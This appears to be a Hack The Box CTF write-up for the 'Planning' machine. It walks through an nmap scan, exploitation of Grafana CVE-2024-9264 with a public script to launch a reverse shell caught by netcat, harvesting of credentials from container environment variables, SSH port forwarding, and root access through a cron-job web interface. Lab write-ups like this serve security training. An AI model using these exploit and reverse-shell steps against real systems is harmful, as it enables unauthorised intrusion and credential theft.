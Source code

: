 # HTB - Planning

## Recon

### nmap

```jsx
nmap -sC -sV -Pn 10.10.11.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-02 23:21 EDT
Nmap scan report for 10.10.11.68
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.22 seconds

```

we have only two ports so we can start with the webpage for that we need to add the host name to the `/etc/hosts` 

using ffuf we found a subdomain called `grafana` and using the version of grafana `Grafana v11.0.0 (83b9528bce)` we found vulnerability **`CVE-2024-9264` related to grafana** 

## Reverse shell

using the credentials from hackthebox admin / 0D5oT70Fq13EvB5r and the script from 

[https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)

```jsx
┌──(env)─(cyberghost㉿vbox)-[~/htb/planning/CVE-2024-9264]
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "bash rev.sh" http://grafana.planning.htb/
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: bash rev.sh
⠼ Running duckdb query

```

```jsx
──(cyberghost㉿vbox)-[~/htb/planning]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.17] from (UNKNOWN) [10.10.11.68] 32896
sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)

```

we obtained a reverse shell , but this shell is a container upon inspecting the env variables using `printenv` we found the username `enzo` and password `RioTecRANDEntANT!`

```jsx
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=id
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana

```

using the the credentials we successfully logged into the ssh session of the user 

## prevesc

using linpeas we found a db file which contained credentials for a web page which was running in internal host port 8000

```jsx
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports                                  
══╣ Active Ports (netstat)                                                                                                    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                                             
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:40951         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -    
```

```jsx
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data                                                             
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 967, cookie 0x4, schema 4, UTF-8, version-valid-for 5
Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 6, database pages 16, cookie 0x5, schema 4, UTF-8, version-valid-for 6
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 5

```

using ssh tunneling we port forward port 8000 to our localhost 8000 

```jsx
ssh -L 8000:localhost:8000 enzo@planning.htb
enzo@planning.htb's password: 
```

then we access the webpage in our browser which was running cronjobs as root so using that we gained reverse shell as root

![Screenshot_2025-07-03_01_50_51.png](planning/Screenshot_2025-07-03_01_50_51.png)

![Screenshot_2025-07-03_01_54_10.png](planning/Screenshot_2025-07-03_01_54_10.png)